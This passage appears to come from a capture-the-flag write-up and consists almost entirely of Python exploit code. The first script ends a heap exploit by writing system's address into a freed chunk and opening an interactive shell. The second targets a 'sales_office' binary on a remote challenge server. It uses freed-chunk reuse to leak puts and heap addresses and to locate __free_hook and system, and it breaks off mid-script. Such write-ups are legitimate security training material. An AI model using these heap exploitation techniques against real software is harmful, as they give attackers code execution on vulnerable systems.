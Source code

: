 ```plain
		add(0x28,'a')
		add(0x28,p64(system_addr))
		delete(4)

		success('heap_base:'+hex(heap_base))
		success('libc_base:'+hex(libc_base))
		# gdb.attach(io)
		io.interactive()
	# except Exception as e:
	# 	io.close()
	# 	continue
	# else:
	# 	continue
flag：THE_FLAG_OF_THIS_STRING
```
```plain
#Nop
from PwnContext import *
context.log_level = 'debug'
ctx.binary = 'sales_office'
ctx.remote_libc = '/home/msk/glibc-all-in-one/libs/2.29-0ubuntu2_amd64/libc-2.29.so'
ctx.debug_remote_libc = True
ctx.remote = ('das.wetolink.com',28499)
libc = ELF('/home/msk/glibc-all-in-one/libs/2.29-0ubuntu2_amd64/libc-2.29.so')
def cmd(idx):
    ctx.recvuntil("choice:")
    ctx.sendline(str(idx))
def add(size,dec):
    cmd(1)
    ctx.recvuntil("Please input the size of your house:\n")
    ctx.sendline(str(size))
    ctx.recvuntil("please decorate your house:\n")
    ctx.send(dec)
def show(idx):
    cmd(3)
    ctx.recvuntil('index:\n')
    ctx.sendline(str(idx))
def delete(idx):
    cmd(4)
    ctx.recvuntil('index:\n')
    ctx.sendline(str(idx))
def z():
    ctx.debug()
ctx.start('remote')
add(0x60,'a'*0x60) #0
add(0x60,'b'*0x60) #1
delete(0)
delete(1)
add(0x10,p64(0x602020)+p64(0x100)) #2
show(0)
ctx.recvuntil("house:\n")
leak = ctx.recvuntil("\n")[:-1]
puts_addr = u64(leak.ljust(8,'\x00'))
libcbase = puts_addr - libc.symbols["puts"]
log.info("libcbase =" + hex(libcbase))
free_hook = libcbase + libc.symbols["__free_hook"]
system = libcbase + libc.symbols["system"]
delete(2)
add(0x10,p64(0x6020b0)+p64(0x100)) #3
show(0)
ctx.recvuntil("house:\n")
leak = ctx.recvuntil("\n")[:-1]
heap = u64(leak.ljust(8,'\x00'))
```